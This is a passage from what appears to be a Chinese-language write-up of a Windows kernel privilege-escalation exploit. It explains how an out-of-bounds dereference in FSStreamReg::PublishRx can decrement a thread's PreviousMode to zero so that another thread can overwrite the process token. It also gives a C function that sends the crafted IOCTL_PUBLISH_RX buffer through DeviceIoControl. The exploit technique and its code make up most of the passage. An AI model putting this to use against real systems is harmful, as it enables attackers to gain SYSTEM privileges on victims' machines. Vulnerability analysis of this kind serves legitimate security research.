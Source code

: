[![](assets/1706146443-b930c15943a8f78ee1dc786d5297cc21.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122231000-4fc83652-b938-1.png)

然后，FSStreamReg::PublishRx 将调用 ObfDereferenceObject 对从相邻对象中取出的超出边界的字段。这样再去把当前线程的 PreviousMode 地址放在那，当调用 ObfDereferenceObject 时候就会使主线程的 PreviousMode 减为 0。然后另一个线程就会调用内核地址上的 NtReadVirtualMemory 和 ntwritvirtualmemory 去替换 token 了。

```plain
void thread_sep()
{
    printf("\t[+] Loop Thread Start..\n");
    ULONG_PTR InBuf[0x20] = { 0 };
    InBuf[4] = 0x100000001;
    DeviceIoControl(cReg, IOCTL_PUBLISH_RX, InBuf, 0x100, NULL, 0, NULL, NULL);
    printf("\t\t[+] Loop thread loop finished..\n");
    SetEvent(hEvent);
}
```
